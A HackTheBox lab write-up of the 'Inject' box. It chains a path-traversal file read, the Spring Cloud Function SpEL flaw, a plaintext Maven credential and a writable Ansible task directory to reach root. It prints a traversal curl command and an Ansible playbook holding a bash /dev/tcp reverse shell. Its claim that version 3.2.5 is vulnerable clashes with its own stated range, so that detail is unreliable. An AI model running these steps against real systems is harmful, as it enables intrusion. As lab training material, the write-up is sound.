


<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Ubuntu 22.04), **Difficulty:** Easy, **Released:** 2023-04-01, **IP:** `10.10.11.204` → `inject.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Upload page + `show_image?img=` is **path traversal / LFI** → read `/etc/passwd` (users `frank`, `phil`) and the webapp's `pom.xml`, revealing **Spring Cloud Function 3.2.5**.
2. **CVE-2022-22963** (Spring Cloud Function SpEL injection via the `spring.cloud.function.routing-expression` header) → RCE → shell as **`frank`**.
3. `frank`'s `~/.m2/settings.xml` contains `phil : DocPhillovestoInject123` → `su phil`.
4. `phil` is in group **`staff`**, which can write into `/opt/automation/tasks/`. A root cron runs every Ansible **playbook** in that dir → drop `playbook_2.yml` with a reverse-shell task → root.

</div>

<div class="callout callout-key">

**Credentials & Flags**


| Where | Value |
| --- | --- |
| `frank` `~/.m2/settings.xml` | `phil : DocPhillovestoInject123` |
| `user.txt` | `/home/phil/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

Inject teaches **using an LFI to fingerprint the stack before you attack it**. The image-viewer traversal is not itself a shell, but reading the Maven `pom.xml` tells you it's Spring Cloud Function 3.2.5. And *that* is the RCE. The rest is loot chaining (Maven `settings.xml` holds a plaintext password) and a **writable-directory cron**: you can't edit the existing playbook, but you can drop a *new* one that root's cron will happily run. Good practice for "what am I actually running" enumeration and for Ansible as an attack surface.

Related LFI/traversal boxes: [Backdoor](/writeups/hackthebox/linux/easy/backdoor/), [Titanic](/writeups/hackthebox/linux/easy/titanic/), [Bagel](/writeups/hackthebox/linux/medium/bagel/). Related "read build metadata to find the CVE": [Pilgrimage](/writeups/hackthebox/linux/easy/pilgrimage/) (`.git` + binary), [Heal](/writeups/hackthebox/linux/medium/heal/). Related writable-cron / task-dir privesc: [Previse](/writeups/hackthebox/linux/easy/previse/), [mkingdom](/writeups/tryhackme/linux/easy/mkingdom/), [Jupiter](/writeups/hackthebox/linux/medium/jupiter/).

---

## Full Walkthrough



on the uploads page we can only upload images.



we uploaded a regular image then tried to do some LFI

```bash
curl -vv 'http://inject.htb:8080/show_image?img=../../../../../../../../../../../../../../etc/passwd'
```

```console
root:x:0:0:root:/root:/bin/bash
...
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

<div class="callout callout-note">

**Turn the LFI into stack recon**

Before hunting an RCE, use the file read to learn *what the app is*. For a Java web app the key files are `pom.xml` / `build.gradle` (dependency versions), `application.properties` / `application.yml` (creds, internal hosts), and the source tree under `/var/www/WEB-INF` or the project dir. Reading `../webapp/pom.xml` here shows `spring-cloud-function-web` **3.2.5**. The exact vulnerable version. Also try `/proc/self/environ`, `/proc/self/cwd/…`.

</div>

We know the service is running Spring, so we researched **CVE-2022-22963** and got a shell. (Found via the LFI: an XML file in the `webapp` directory shows it's running the Spring framework.)

<div class="callout callout-note">

**CVE-2022-22963, Spring Cloud Function SpEL RCE**

Spring Cloud Function ≤ 3.2.2 evaluates the `spring.cloud.function.routing-expression` request header as a **SpEL** expression when the `functionRouter` is used. `T(java.lang.Runtime).getRuntime().exec(...)` in that header runs as the app user. Unauthenticated, single request. (Not to be confused with Spring4Shell / CVE-2022-22965, which dropped the same week.)

</div>

```console
└─[$]> python3 exploit.py -u http://inject.htb:8080
[+] http://inject.htb:8080 is vulnerable
[/] Attempt to take a reverse shell? [y/n] y
Connection received on 10.10.11.204 51776
frank@inject:/$
```

linpeas would not run here, so I enumerated by hand. In frank's home there's a `.m2` folder (Maven); `settings.xml` holds credentials for `phil`:

```xml
<server>
  <id>Inject</id>
  <username>phil</username>
  <password>DocPhillovestoInject123</password>
</server>
```

```bash
su phil        # DocPhillovestoInject123
```

linpeas runs fine as `phil`. The key finding is that `phil` belongs to the `staff` group:

```console
phil@inject:~$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
phil@inject:~$ ls -al /opt/automation/tasks/
drwxrwxr-x 2 root staff 4096 ... .
-rw-r--r-- 1 root root   150 ... playbook_1.yml
```

```yaml
# /opt/automation/tasks/playbook_1.yml  - run by root's cron
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd: { name: webapp, enabled: yes, state: started }
```

<div class="callout callout-note">

**Writable task directory + Ansible = root**

The cron runs `ansible-playbook` against **every** `*.yml` in `/opt/automation/tasks/`. You can't overwrite `playbook_1.yml` (owned by root), but the directory is group-writable by `staff`, so you can **create** `playbook_2.yml`. Ansible playbooks run tasks as the invoking user (root) and the `shell`/`command` modules are arbitrary execution. The cron re-creates/cleans files quickly, so stage the payload and drop it fast. `pspy` confirms the interval.

</div>

```yaml
# playbook_2.yml
- hosts: localhost
  tasks:
  - name: shell
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.77/9002 0>&1'
```

```console
└─[$]> nc -lnvvp 9002
Connection received on 10.10.11.204 54618
root@inject:/opt/automation/tasks#
```

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/phil/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons & Takeaways

- **An LFI is a reconnaissance tool.** Read build files and configs to identify exact versions before searching for exploits.
- **Canonicalise and confine file paths**. Reject `. `, resolve with `realpath`, and check the result is inside an allowed base directory.
- **Patch Spring Cloud Function** (and audit for Spring4Shell at the same time).
- **Maven `settings.xml`, `~/.m2`, `~/.aws`, `~/.docker/config.json`, `~/.git-credentials`** routinely hold plaintext secrets. Always check them post-foothold.
- **A group-writable automation directory is root** if root runs its contents. Lock down `/opt/**` perms and run schedulers from a fixed, root-only path.

---

## Related Writeups

- **LFI / path traversal:** [Backdoor](/writeups/hackthebox/linux/easy/backdoor/), [Titanic](/writeups/hackthebox/linux/easy/titanic/), [Bagel](/writeups/hackthebox/linux/medium/bagel/), [Heal](/writeups/hackthebox/linux/medium/heal/)
- **Read metadata → find the CVE:** [Pilgrimage](/writeups/hackthebox/linux/easy/pilgrimage/), [Heal](/writeups/hackthebox/linux/medium/heal/)
- **Writable cron / task dir → root:** [Previse](/writeups/hackthebox/linux/easy/previse/), [mkingdom](/writeups/tryhackme/linux/easy/mkingdom/), [Jupiter](/writeups/hackthebox/linux/medium/jupiter/)
- **Secrets in dev tool configs:** [Inject](/writeups/hackthebox/linux/easy/inject/) `.m2`, see also [Cat](/writeups/hackthebox/linux/medium/cat/) / [Backdoor](/writeups/hackthebox/linux/easy/backdoor/)

## References

- CVE-2022-22963 <https://nvd.nist.gov/vuln/detail/CVE-2022-22963>
- Spring advisory <https://spring.io/security/cve-2022-22963>
- Ansible playbook basics <https://docs.ansible.com/ansible/latest/playbook_guide/>
